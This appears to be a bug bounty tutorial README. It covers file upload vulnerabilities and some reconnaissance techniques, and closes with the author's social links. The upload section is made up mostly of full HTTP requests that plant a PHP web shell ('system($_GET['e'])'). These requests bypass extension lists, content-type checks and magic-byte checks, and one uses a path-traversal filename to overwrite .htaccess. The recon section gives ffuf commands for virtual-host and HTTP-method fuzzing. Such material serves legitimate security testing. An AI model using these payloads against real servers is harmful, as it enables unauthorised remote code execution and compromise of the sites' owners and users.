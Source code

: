 # Bug Bounty Hunting Mindset v1.0

<h2 align="center"><strong>Bug Bounty Hunting Mindset v1.0</strong></h2>

<p align="center">A focused and practical resource for bug bounty hunters, penetration testers, and red teamers — covering real-world techniques, bypasses, and offensive security insights.</p>

***

<h3 align="center"><strong>Vulnerabilities &#x26; Bypasses:</strong></h3>

> **Info:**
>
> <p align="center">A collection of known vulnerability types with practical methods to bypass filters, protections, and common security mechanisms.</p>

#### <sup>**V01.**</sup>**&#x20;Insecure file uploads: A complete guide to finding advanced file upload vulnerabilities:**

1. **Identifying file upload vulnerabilities**
   * Retrievable
   * Content-Type
2.  **Exploiting simple file upload vulnerabilities**

    * No restrictions

    ```http
    POST /Api/FileUpload.aspx HTTP/2
    Host: console.example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
    Accept: */*

    ------WebKitFormBoundary3RwPFJztxaJvrqAq
    Content-Disposition: form-data; name="file"; filename="shell.php"
    Content-Type: application/x-php

    <?php echo system($_GET['e']); ?>
    ------WebKitFormBoundary3RwPFJztxaJvrqAq--
    ```

    * Bypassing client-side restrictions
      *   HTML "accept" attribute

          ```html
          <input type="file" accept=".jpg, .jpeg, .png, .gif" />
          ```
      * using proxy interceptors
    * Bypassing a file extension blacklist

    <figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

    <p align="center">Bypass file extension exclusion lists</p>

    * Bypassing a file extension whitelist



<p align="center">Bypass file extension inclusion lists</p>

If the file upload implementation determines your file type by the content type, you can also attempt to upload a file with a whitelisted file extension but with your malicious content type:

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center">Take note of the <mark style="color:red;">filename</mark> and <mark style="color:red;">Content-Type</mark> in the example request above.</p>

3. **Exploiting advanced file upload vulnerabilities**

* Bypassing content type restrictions

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

* Magic bytes
  *   These are the magic bytes for a normal image (PNG) in HEX:

      `89 50 4E 47 0D 0A 1A 0A`

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

‰PNG␍␊␚␊
<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

<p align="center"><a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures - Wikipedia</a></p>

* Overwriting server configuration files
  * .htaccess

```http
POST /Api/FileUpload.aspx HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="../../../.htaccess"
Content-Type: text/plain

# Your server configuraton rules
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

***

#### <sup>**V02.**</sup>

***

<h3 align="center"><strong>Hunting Techniques &#x26; Ideas:</strong></h3>

> **Info:**
>
> <p align="center">General strategies, techniques, and creative approaches to help you discover more bugs and uncover hidden attack surfaces.</p>

#### <sup>**T01.**</sup>**&#x20;7 Overlooked recon techniques to find more vulnerabilities:**

1. **Targeted wordlists**
   1. [CeWL](https://github.com/digininja/CeWL)
2. **Virtual host (VHost) enumeration**

```sh
ffuf -u https://example.com -H "Host: FUZZ.example.com" -w /path/to/wordlist
```

3. **Forced browsing using different HTTP methods**

```sh
ffuf -u https://api.example.com/PATH -X METHOD -w /path/to/wordlist:PATH -w /path/to/http_methods:METHOD
```

4. **JavaScript file monitoring**
   1. [JSMON](https://github.com/robre/jsmon)
5. **Crawling with different user-agent headers**
   1. <kbd>Proxy → Proxy settings → Tools → Proxy → HTTP match and replace rules</kbd>
6. **Finding related assets with favicon hashes**
   1. [Shodan](https://www.shodan.io/)
   2. [Censys](https://search.censys.io/)
7. **Looking up legacy versions of JavaScript files**
   1. [internet archives](https://archive.org/)

***

#### <sup>**T02.**</sup>

***

<h3 align="center"><strong>Closing Note:</strong></h3>

It is my pleasure and honor to have your support and follow-up. I look forward to exchanging knowledge and collaborating with you in the field of cybersecurity.

Stay connected:

* **X Platform:** [iProgrammer16](https://x.com/iProgrammer16)
* **X Platform:** [1ZeroDay](https://x.com/1ZeroDay)
* **LinkedIn:** [Linkedin](https://www.linkedin.com/in/saleh16abdullah/)
* **Github:** [iProgrammer16](https://github.com/iProgrammer16)
* **Telegram Channel:** [1ZeroDay](https://t.me/+ylDx8zGNLEwzMWU8)
* **For collaboration on HackerOne:** [HackerOne Profile - iProgrammer16](https://hackerone.com/iprogrammer16)
* **All social links in one place:** [Linktr](https://linktr.ee/1ZeroDay)
